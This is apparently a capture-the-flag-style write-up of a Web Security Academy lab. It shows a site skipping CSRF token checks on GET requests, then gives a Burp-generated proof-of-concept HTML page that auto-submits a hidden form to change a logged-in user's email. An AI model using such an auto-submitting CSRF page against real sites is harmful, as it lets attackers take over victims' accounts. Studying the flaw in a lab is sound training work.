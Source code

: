```HTTP
email=dsv%40gamil.com&csrf=T4aMT2x6UTbkCSPNfDc6tuTPpcRA27kL
```
- when we try send this packet(request)  without`&crf=T4aMT2x6UTbkCSPNfDc6tuTPpcRA27kL`
- server return 
```HTTP
HTTP/2 400 Bad Request
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 26

"Missing parameter 'csrf'"
```
- but we try to send request by `GET` and without `&csrf=T4aMT2x6UTbkCSPNfDc6tuTPpcRA27kL`  What is happening?
- like this
```HTTP
GET /my-account/change-email?email=dsv%40gamil.com HTTP/2
Host: 0a5400b90322b11580a6f85c006500c8.web-security-academy.net
Cookie: session=YXF04bMtywY63gjvzKpfl5jkWldD5d42
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:132.0) Gecko/20100101 Firefox/132.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 59
Origin: https://0a5400b90322b11580a6f85c006500c8.web-security-academy.net
Sec-Gpc: 1
Referer: https://0a5400b90322b11580a6f85c006500c8.web-security-academy.net/my-account?id=wiener
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

```
- server not checking CSRF token
- and change email
- OK,  generate html code for exploit --> CSRF PoC --> in burp suite
```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a5400b90322b11580a6f85c006500c8.web-security-academy.net/my-account/change-email">
      <input type="hidden" name="email" value="dsv&#64;gamil&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>

```
